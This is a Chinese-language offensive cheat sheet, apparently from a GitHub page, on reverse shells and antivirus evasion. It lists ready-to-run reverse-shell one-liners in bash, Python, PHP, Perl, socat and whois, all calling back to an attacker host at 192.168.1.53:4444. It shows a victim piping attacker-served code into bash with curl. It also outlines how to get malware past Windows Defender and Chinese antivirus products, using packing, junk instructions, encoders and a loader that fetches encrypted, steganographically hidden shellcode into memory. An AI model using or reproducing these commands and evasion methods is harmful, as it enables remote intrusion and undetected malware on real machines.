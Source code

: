 ShellCode 是指一段小型的机器代码，通常用于在计算机系统中执行特定的恶意操作。

## 1. 监听端口

Netcat 侦听端口用于接收反弹 `shell`

```
nc -lnvp 4444
```

## 2. 反弹 Shell

**Bash**

```
bash -i >& /dev/tcp/<host>/4444 0>&1
```

**Curl 反弹**
开启 Web 服务

```
┌──(root㉿kali)-[~]
└─#  systemctl start apache2.service
```

将反弹 Shell 写入 HTML 文件

```
┌──(root㉿kali)-[/var/www/html]
└─# vim bash.html   
```

```
bash -i >& /dev/tcp/192.168.1.53/4444 0>&1
```

受害者下载并运行攻击者的文件

```
[root@centos ~]# curl 192.168.1.53/bash.html | bash
```

**Whois 反弹**

下载 `whois` 

```
[root@centos ~]# yum install -y whois
```

反弹的 Shell 并执行命令

```
[root@centos ~]# whois -h 192.168.1.53 -p 4444 [command]
```

**Python 反弹**

```
[root@centos ~]# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.53",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP 反弹**

安装 `php`

```
[root@centos ~]# yum install php -y
```

反弹 Shell

```
[root@centos ~]# php -r '$sock=fsockopen("192.168.1.53",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Socat 反弹**

安装 `socat`

```
[root@centos ~]# yum install -y socat
```

反弹 Shell

```
[root@centos ~]# socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.53:4444
```

**Perl 反弹**

```
[root@centos ~]# perl -e 'use Socket;$i="192.168.1.53";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## 3. Bypass

国内常见查杀软件：

1. Widnwos Defender
2. 360 安全卫士
3. 火绒安全软件
4. 腾讯电脑管家

### 3.1. 理论

### 3.1.1 识别方式

1. 特征码

2. 行为

3. 内存（内存中要运行原始代码，更易识别）

   > 目前杀软中卡巴斯基会对内存进行识别

### 3.1.2 免杀方式

1. 特征免杀（学习成本高，需要有源码，懂开发）

   > 修改源码或 PE 文件
   >
   > 重编译，增加混淆，加密

2. 分离免杀（通用，把恶意代码和程序分开）

   > 写一个加载器（本身不含有恶意代码）
   >
   > 在 Web 放置加密的恶意代码
   >
   > 使目标执行加载器（要加一些混淆，行为不要太明显）
   >
   > 1. 下载加密的恶意代码
   > 2. 解密恶意代码
   > 3. 将恶意代码放入内存
   > 4. 执行恶意代码

3. 加壳免杀（简单，付费，越冷门越好用）

   > 对恶意程序进行加壳，使之无法被反编译，达到免杀的效果
   >
   > UPX 加壳（需要手动修改特征）

4. 花指令免杀（修改汇编指令）

   > 把一条命令执行的步骤拆分为多个步骤
   >
   > 常用步骤替换为相同效果的冷门步骤
   >
   > 加 nop

5. 内存免杀（内存中执行的恶意代码是原始代码）

   > 使用编码器改变恶意程序的代码，使之不同于源代码，但执行效果相同
   >
   > msf 有一款 x86/shikata_ga_nai （由于太多人使用，已经被杀软识别）

### 3.2. 实战

### 3.2.1. 分离免杀

1. 使用 cs 或者 msf 生成 shellcode

2. 对 shellcode 进行 aes 加密，并将密钥写入到加载器（写入到加载器的密钥要做一个随机切割，避免被识别）

3. 将加密后的密文隐写到正常文件中（几乎所有的文件都可以隐写，这里为了方便直接保存到 shellcode.txt 中）

4. 执行加载器 `loader`

   > 1. 下载隐写后的文件
   > 2. 读取隐写的密文
   > 3. 解密恶意代码
   > 4. 将恶意代码放入内存
   > 5. 执行恶意代码

---

References

- [Reverse Shell Generator](https://www.revshells.com/)
